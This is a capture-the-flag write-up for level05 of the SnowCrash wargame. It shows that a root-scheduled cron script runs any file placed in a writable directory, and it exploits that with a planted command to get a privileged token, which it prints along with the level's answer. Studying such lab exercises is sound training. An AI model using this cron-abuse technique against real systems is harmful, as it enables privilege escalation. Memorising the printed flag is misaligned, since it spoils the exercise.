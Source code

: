 # Level05 - Cron file

## Checking part
After loggin as level05 we automatically receive a message: You have new mail. Then after some research we can found the file level05 at
```bash
/var/mail/level05
```

After checking on the file content we found:
```bash
level05@SnowCrash:~$ cat /var/mail/level05 
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
level05@SnowCrash:~$
```

So the idea here is that every 2min, /usr/sbin/openarenaserver is execute!

```bash
level05@SnowCrash:~$ ls -la /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
level05@SnowCrash:~$
```

Don't forget that the owner of the file is flag05
So we take a look at the code inside the file openarenaserver:

```bash
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
level05@SnowCrash:~$
```

It seems that this script will execute every files in /opt/openarenaserver then delete them immediately.
Cause this script is execute by flag05 (Permissions) we should try to execute getflag .

## Solution

Now we can try to execute getflag with /usr/sbin/openarenaserver:

```bash
level05@SnowCrash:~$ echo "/bin/getflag > /tmp/my_file" > /opt/openarenaserver/my_file
level05@SnowCrash:~$ cat /opt/openarenaserver/my_file
/bin/getflag > /tmp/my_file
level05@SnowCrash:~$
```
Let's wait few minutes (2 max)

```bash
level05@SnowCrash:~$ cat /tmp/my_file
Check flag.Here is your token : viuaaale9huek52boumoomioc
level05@SnowCrash:~$ su level06
Password:
level06@SnowCrash:~$
```
And here we go!!